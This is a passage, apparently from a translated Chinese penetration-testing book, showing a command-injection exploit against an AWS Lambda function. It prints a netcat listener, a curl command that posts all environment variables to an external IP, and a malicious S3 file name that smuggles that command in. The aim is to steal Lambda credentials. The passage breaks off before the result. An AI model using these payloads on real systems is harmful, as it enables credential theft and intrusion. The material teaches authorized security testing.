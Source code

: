 ```
nc -nlvp 80
```

然后，我们将制定有效负载，以过滤凭证。我们可以使用`"env"`命令访问环境变量，因此使用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令将包括作为主体的所有环境变量，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

它可能看起来有点古怪，但因为`"env"`命令提供多行内容，所以需要将其放在引号中，否则会弄乱整个命令（尝试在您自己的服务器上运行`"curl -X POST -d `env` 1.1.1.1"`并查看结果）。如果您不熟悉，backticks（```命令指示 bash 在执行整个`curl`命令之前运行`"env"`命令，因此它将`POST`这些变量发送到我们的外部服务器。另外，因为我们的服务器正在监听端口`80`，所以我们不需要在`curl`命令中包含`http://`或该端口，因为给定一个 IP 地址，默认是转到`http://1.1.1.1:80`。这样可以避免很多不必要的字符。这可能不一定是一种常规的方法，但是这个字符串的优点是它很容易放入文件名，这正是我们利用这个 Lambda 函数所需要的！

回到我们的有效载荷；现在，我们需要使用以下名称将文件上载到 S3：

```
hello;curl -X POST -d "`env`" 1.1.1.1;.zip
```

Microsoft Windows 不允许您使用此名称创建文件，因为其中包含双引号，但使用 Linux 很容易做到这一点。我们可以使用`touch`命令创建文件。它将如下所示：

```
touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'
```

前面命令的输出如下所示：

![](img/215c8c00-1f95-48dd-b752-e4274bc82d14.png)

在我们自己的 Ubuntu 服务器上创建带有恶意名称的文件

一切都准备好了。我们需要做的就是确保我们的 NetCat 侦听器已在外部服务器上启动，然后我们需要将此文件上载到`bucket-for-lambda-pentesting`S3 bucket，然后等待 Lambda 函数被调用，最后等待恶意命令执行。我们可以使用 S3`copy`AWS CLI 命令将本地恶意文件复制到远程 S3 bucket 进行上传：

```
aws s3 cp ./'hello;curl -X POST -d "`env`" 1.1.1.1;.zip' s3://bucket-for-lambda-pentesting --profile LambdaReadOnlyTester
```

它看起来有点混乱，因为我们的恶意文件名，但它所做的只是使用 S3`copy`命令作为`LambdaReadOnlyTester`AWS CLI 配置文件，将我们的本地恶意文件复制到`bucket-for-lambda-pentesting`S3 bucket。执行此命令后，我们只需等待并观察我们的 NetCat 侦听器，希望获得一些凭据！几秒钟后，我们将看到以下内容：
